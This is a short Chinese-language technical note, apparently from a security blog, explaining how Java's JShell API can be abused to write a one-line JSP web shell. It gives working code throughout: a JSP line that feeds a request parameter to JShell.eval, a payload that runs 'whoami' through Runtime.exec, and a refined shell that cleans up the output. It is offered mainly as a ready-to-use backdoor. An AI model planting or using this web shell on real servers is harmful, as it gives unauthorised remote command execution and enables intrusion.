


# JSshell

## 前言

从`JDK9`开始提供了`JSshell`的功能，`jshell`是一个`REPL(Read-Eval-Print Loop)`命令行工具，提供了一个交互式命令行界面，通过`jshell`可以不需要编写类就能执行Java代码片段。

命令行进入`JSshell`



## 代码执行

`jshell`不仅是一个命令行工具，在我们的应用程序中同样也可以调用`jshell`内部的实现API，也就是说我们可以利用`jshell`来执行Java代码片段而不再需要将Java代码编译成class文件后执行了。

`jshell`调用了`jdk.jshell.JShell`类的`eval`方法来执行我们的代码片段，那么我们只要想办法调用这个`eval`方法也就可以实现真正意义上的一句话木马了。

一句话木马实例：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("dotast"))%>
```

传入本地命令执行代码
```java
new String(Runtime.getRuntime().exec("whoami").getInputStream().readAllBytes())
```


去除干扰项可以修改成：
```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("dotast")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```


